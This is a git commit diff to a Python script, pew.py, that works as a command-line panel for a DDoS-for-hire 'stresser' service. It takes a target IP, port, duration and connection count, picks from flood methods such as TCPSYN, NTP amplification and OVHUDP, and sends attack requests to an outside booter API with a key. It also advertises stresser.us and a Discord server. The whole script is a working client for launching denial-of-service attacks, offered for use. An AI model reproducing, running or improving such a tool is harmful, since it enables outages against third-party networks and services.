

fix somethings and add somethings

Changed region(s): [[0.0, 0.5312, 0.3071, 0.6875], [0.3992, 0.2188, 0.4607, 0.25], [0.0, 0.0, 0.0307, 0.0625]]

diff --git a/pew.py b/pew.py
@@ -3,23 +3,24 @@ from httpx import get
 from os import system,_exit
 from sys import stdout
 from time import sleep
-from shutil import get_terminal_size
 from sty import fg
 
-system("CHCP 65001")
-exit=lambda _: _exit(0)
-_KEY="KEY_HERE"
+_USERNAME="larina"
+_KEY="YOUR_KEY_HERE"
+_DALAY=0.5 # wait delay per req
 _METHODS=["TCPRAW","TCPSYN","TCPACK","TCPTFO","TCPTLS","TCPAMP","VALVE","FIVEM","OVHAMP","OVHTCP","OVHUDP","SNMP","WSD","DVR","NTP","ARD","IGMP","GRE","ESP","IPRAND","TLSV1","TLSV2","UDPBYPASS"]
-__builtins__.print = lambda text="",end="\r\n": stdout.write(f"{text}{end}");stdout.flush()
-clearconsole = lambda : system("cls || clear")
 
-class color:
-    def __init__(self)->None:
-        self.text = 15
+__builtins__.print = lambda text="",end="\r\n": stdout.write(f"{text}{end}");stdout.flush()
+clearconsole = lambda:system("cls || clear")
+exit=lambda: _exit(0)
+
+class COLOR:
+    def __init__(self)->None: # https://i.stack.imgur.com/S8wtO.png
+        self.text   = 15
         self.invite = 82
-        self.logo = 117
-        self.line = 225
-_COLOR=color()
+        self.logo   = 117
+        self.line   = 225
+_COLOR=COLOR()
 
 def makec(text,color):
     return f"{fg(color)}{text}{fg.rs}"
@@ -35,13 +36,11 @@ def logo():
 \t██▄ ▀   ██    ██▀ ▀▀ ▄█▄▄▄██ ██▄ ▀  ██▄ ▀  ▄█▄▄▄██  ██▀ ▀▀     ██  ██  ██▄ ▀  
 \t▄ ▀█▄▄  ██    ██     ██      ▄ ▀█▄▄ ▄ ▀█▄▄ ██       ██         ██  ██  ▄ ▀█▄▄ 
 \t█▀▄▄█▀  ▀█▄▀ ▄██▄     ▀█▄▄▄▀ █▀▄▄█▀ █▀▄▄█▀  ▀█▄▄▄▀ ▄██▄        ▀█▄▄▀█▄ █▀▄▄█▀ """,_COLOR.logo))
-    printc(makec("\t\t\tdiscord.gg/cyber-hubs and stresser.us\n",_COLOR.invite))
+    printc(makec("\t\t\tdiscord.gg/vT8W3XzNZg and stresser.us\n",_COLOR.invite))
 
 def realint(s):
-    try:
-        return int(s)
-    except: 
-        return -1
+    try:return int(s)
+    except:return -1
 
 def isgoodipv4(s)->bool:
     pieces = s.split('.')
@@ -51,20 +50,27 @@ def isgoodipv4(s)->bool:
 
 def isgoodint(p,max)->bool:
     p=realint(p)
-    if p <= max and not (p <= 0): 
-        return True
+    if p <= max and not (p <= 0): return True
     return False
 
 def request(ip,port,time,conn,method):
-    try:
-        for _ in range(int(conn)):
+    for _ in range(int(conn)):
+        try:
             resp=get(f"https://darlingapi.com/?key={_KEY}&host={ip}&port={port}&time={time}&method={method}").json()
-            #print(resp)
-            sleep(0.2)
-        if resp["error"] == "yes":
-            return {"ok":False,"data":resp["data"]}
-        return {"ok":True,"data":resp["data"]}
-    except:return {"ok":False,"data":"api down?"}
+            print(makec(resp["data"],46 if resp["error"] != "yes" else 9))
+        except Exception as e:
+            try:
+                print(resp)
+                print(resp.text)
+            except:pass
+            if str(e) == "Expecting value: line 1 column 1 (char 0)":
+                print(makec("[!] servers full",9))
+            else:
+                print(e)
+                print(makec("[!] api down or idk error",9))
+        sleep(_DALAY)
+            
+            
 
 def helpcom():
     logo()
@@ -82,34 +88,30 @@ def clearcom():
     print("")
 
 def main():
-    print("\n"*14)
-    stdout.write("".center(50))
-    for cha in "welcome back, larina.":
-        stdout.write(cha)
-        stdout.flush()
-        sleep(0.1)
-    sleep(2)
+    # print("\n"*12)
+    # stdout.write("".center(50))
+    # for cha in "welcome back, larina.":
+    #     stdout.write(cha)
+    #     stdout.flush()
+    #     sleep(0.1)
+    # sleep(2)
     helpcom()
     while 1:
-        rawcommands=input(f'{makec("larina@us",196)}{makec(":~$",_COLOR.text)}{fg(81)} ').split(" ")
+        rawcommands=input(f'{makec(f"{_USERNAME}@us",196)}{makec(":~$",_COLOR.text)}{fg(81)} ').split(" ")
         commands=rawcommands[0].upper()
         args=rawcommands[1:]
         if commands in _METHODS:
             if len(args) < 3 or not (commands.startswith("TLS") or isgoodipv4(args[0])) or (not isgoodint(args[1],65535)) or (not isgoodint(args[2],1200)) or (not isgoodint(args[3],10)):
                 print(makec(f"[*] {commands} <ip/url> <port> <time> <conn>",99))
-            else:
-                resp=request(args[0],args[1],args[2],args[3],commands)
-                print(makec(resp["data"],46 if resp["ok"] == True else 9))
+            else: request(args[0],args[1],args[2],args[3],commands)
         else:   
             try:
                 commandslist[commands]()
-            except:
-                print(makec("[!] command not found",11))
+            except:print(makec("[!] command not found",11))
 
-   
 if __name__ == "__main__":
     commandslist={"EXIT":exit,"QUIT":exit,"HELP":helpcom,"CLEAR":clearcom}
-    sizec=get_terminal_size().columns-3
-    system("mode 130,30")
-    system("title stresser us panel private ^<3")
+    system("CHCP 65001 || clear") # set utf 8
+    system("mode 130,30 || clear")
+    system("title stresser us panel private ^<3 || clear")
     main()
